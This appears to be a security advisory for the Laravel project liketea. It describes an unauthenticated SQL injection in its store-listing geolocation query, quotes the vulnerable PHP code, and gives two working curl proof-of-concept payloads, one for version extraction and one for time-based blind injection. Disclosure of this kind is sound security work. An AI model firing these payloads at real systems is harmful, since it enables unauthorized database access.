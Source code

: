 # [liketea](https://github.com/cameasy/liketea) SQL Injection

### SQL Injection in Geolocation Query [CRITICAL]

#### Description

A critical SQL injection vulnerability exists in the store listing API endpoint that allows unauthenticated attackers to execute arbitrary SQL commands. User-supplied latitude and longitude parameters are directly concatenated into a raw SQL query without sanitization or parameterization.

#### Affected Component

- **File**: `laravel/app/Http/Controllers/Front/StoreController.php`
- **Lines**: 42-46, 73-80
- **Endpoint**: `POST /api/v1/front/store/list`
- **Authentication**: Not Required

#### Vulnerable Code

```php
public function list(Request $request)
{
    $lat = $request->input('lat') ?: '31.182021';
    $lng = $request->input('lng') ?: '121.425562';

    $model = Store::where('is_open', 1)
        ->selectRaw("*, ST_Distance(
            ST_GeomFromText('POINT($lng $lat)'),  // ❌ UNSAFE
            ST_GeomFromText(CONCAT('POINT(', stores.lng, ' ', stores.lat, ')'))
        ) as distance")
        ->orderBy('distance', 'asc')
        ->get();
}
```

#### Proof of Concept

**1. Database Version Extraction**

```bash
curl -X POST http://localhost:8000/api/v1/front/store/list \
  -H "Content-Type: application/json" \
  -d '{"lat":"1","lng":"1'\''))  ,0,0,0,(SELECT version()))#"}'

# Response exposes MySQL version in error message
```

**2. Time-Based Blind SQL Injection**

```bash
# Causes 5-second delay, confirming SQL injection
time curl -X POST http://localhost:8000/api/v1/front/store/list \
  -H "Content-Type: application/json" \
  -d '{"lat":"1","lng":"1'\'')) AND SLEEP(5))#"}'

# Expected: ~5 second delay
```
